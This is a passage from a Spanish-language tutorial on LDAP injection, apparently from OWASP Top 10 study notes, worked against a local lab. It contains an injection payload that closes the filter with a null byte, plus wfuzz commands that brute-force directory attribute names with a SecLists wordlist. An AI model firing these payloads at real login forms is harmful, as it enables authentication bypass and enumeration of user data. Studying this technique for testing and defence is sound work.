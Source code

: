 
![Untitled](../assets/OWASP-TOP-10/Inyecciones LDAP/Untitled 17.png)

Ahora se agrega el usuario con el siguiente comando:

```bash
ldapadd -x -H ldap://localhost 
-D "cn=admin,dc=example,dc=org" -w admin -f newuser.ldiff
```

![Untitled](../assets/OWASP-TOP-10/Inyecciones LDAP/Untitled 18.png)

En este caso, se agregarán varios usuarios: kim, pedro, bryan y julia

## Fuzzing - Atributos válidos

A atributos se refiere a “mail“, “telephoneNumber”, “userPassword”, etc. Además de estos, hay muchos atributos que se podrían estar usando por lo que para fuzzear atributos válidos, se utilizará un lista de palabras como la de SecLists la cual contempla una lista con muchos nombres de atributos.

Estos parámetros se pueden fuzzear con una query como la siguiente:

```bash
(&
	(user=bryan)
	(FUZZ=*))%00
	(userPassword=loquesea)
)
```

En donde está la palabra FUZZ es donde ira el parámetro a FUZZEAR y luego se cierra la query con un paréntesis y un null byte.

Con wfuzz, esto sería de esta forma:

```bash
wfuzz -c -w /usr/share/wordlists/SecLists/
Fuzzing/LDAP-openldap-attributes.txt -d 'user_id=admin)
(FUZZ=*))%00&password=loquesea&login=1&submit=Submit'
http://localhost:8888
```

![Untitled](../assets/OWASP-TOP-10/Inyecciones LDAP/Untitled 19.png)

Debido a que hay muchas respuestas que devuelven la misma cantidad de caracteres, se hará un filtrado para mostrar resultados con caracteres diferentes

```bash
wfuzz -c --hh=550 -w /usr/share/wordlists/SecLists/
Fuzzing/LDAP-openldap-attributes.txt -d 'user_id=admin)
(FUZZ=*))%00&password=loquesea&login=1&submit=Submit'
http://localhost:8888
```

![Untitled](../assets/OWASP-TOP-10/Inyecciones LDAP/Untitled 20.png)

## Script en Python
